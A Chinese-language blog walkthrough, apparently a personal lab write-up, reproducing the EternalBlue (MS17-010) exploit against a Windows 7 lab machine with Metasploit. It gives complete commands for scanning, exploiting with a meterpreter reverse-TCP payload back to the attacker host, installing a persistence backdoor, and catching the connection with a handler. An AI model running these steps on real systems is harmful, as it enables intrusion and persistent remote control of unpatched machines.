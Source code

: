 ```yaml
---
title: 永恒之蓝漏洞复现
tags: 信息安全
categories: 信息安全
abbrlink: fdea9fc4
date: 2019-08-04 17:07:47
---
```


## 前言

永恒之蓝是美国国家安全局开发的漏洞利用程序，该工具利用445/TCP端口的文件分享协议的漏洞进行传播。尽管微软与17年3月份就发布了该漏洞的补丁，然而并没有引起多大的重视，直到17年5月12日WannaCry勒索病毒爆发时，很多用户因未安装补丁而受害。


## 基本环境

- Kali Linux (IP: 192.168.190.135)
- Metasploit工具
- 靶机，MSDN下载的win7  (IP: 192.168.190.136)

win7中开启文件共享

## 漏洞探测

先启动msfconsole，输入如下指令：

```bash
msf5 > use auxiliary/scanner/smb/smb_ms17_010 
msf5 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.190.136
RHOSTS => 192.168.190.136
msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.190.136:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] 192.168.190.136:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

从上述结果可知：该win7存在漏洞

## 开始攻击

执行如下指令：

```bash
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.190.135
LHOST => 192.168.190.135
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.190.136
RHOSTS => 192.168.190.136
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
```

第一行指令意思是加载Metasploit中的EternalBlue攻击模块，第四行是设置shell的通信类型，payload中装载的是漏洞利用成功后在目标机器上执行的代码

结果如下：

{% img /images/永恒之蓝漏洞复现1.PNG %}

执行一下`shell`指令：

{% img /images/永恒之蓝漏洞复现2.PNG %}

可以看到，我们已获得目标机器的最高权限的shell

## 权限维持

metasploit自带的留后门方式有两种：metsvc和persistence，但都有弊端，官方都不推荐使用，这里使用persistence试下

执行如下指令即可在目标机器中留一个后门：

```bash
meterpreter > run persistence -U -i 10 -p 4444 -r 192.168.190.135
```

其中：

- -U：设置后门在用户登录后自启动。
- -i：设置反向连接间隔时间，单位为秒。
- -p：设置反向连接的端口号。
- -r：设置反向连接的ip地址。

之后可以使用handler模块进行连接

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set LHOST 192.168.190.135
LHOST => 192.168.190.135
msf5 exploit(multi/handler) > exploit
```

---
完